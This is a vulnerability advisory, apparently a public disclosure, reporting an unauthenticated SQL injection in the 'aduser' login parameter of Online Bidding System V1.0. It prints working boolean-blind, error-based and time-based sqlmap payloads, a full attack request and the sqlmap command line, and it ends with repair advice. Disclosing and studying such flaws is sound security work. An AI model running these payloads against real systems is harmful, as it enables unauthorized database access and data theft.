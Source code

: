 # ONLINE BIDDING SYSTEM Project V1.0 index.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- ONLINE BIDDING SYSTEM

## Vendor Homepage

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'index.php' file of the 'ONLINE BIDDING SYSTEM' project. The reason for this issue is that attackers inject malicious code from the parameter "aduser" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "ONLINE BIDDING SYSTEM", discovered a critical SQL injection vulnerability in the "index.php" file. This vulnerability stems from insufficient user input validation of the 'aduser' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- error-based
- time-based blind
- boolean-based blind

## Vulnerability location:

- 'aduser' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: aduser=123' AND 6445=(SELECT (CASE WHEN (6445=6445) THEN 6445 ELSE (SELECT 4433 UNION SELECT 3458) END))-- -&adpass=123&login=LOGIN
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: aduser=123' AND GTID_SUBSET(CONCAT(0x7170766271,(SELECT (ELT(5469=5469,1))),0x716b6b7071),5469)-- oFwB&adpass=123&login=LOGIN
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: aduser=123' AND (SELECT 4841 FROM (SELECT(SLEEP(5)))KYkL)-- pbVy&adpass=123&login=LOGIN
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250914134324986](assets/image-20250914134324986.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /administrator/index.php HTTP/1.1
Host: 10.151.167.210:8886
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.151.167.210:8886
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.167.210:8886/administrator/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive

aduser=123*
```

# Attack results

![image-20250914134408998](assets/image-20250914134408998.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.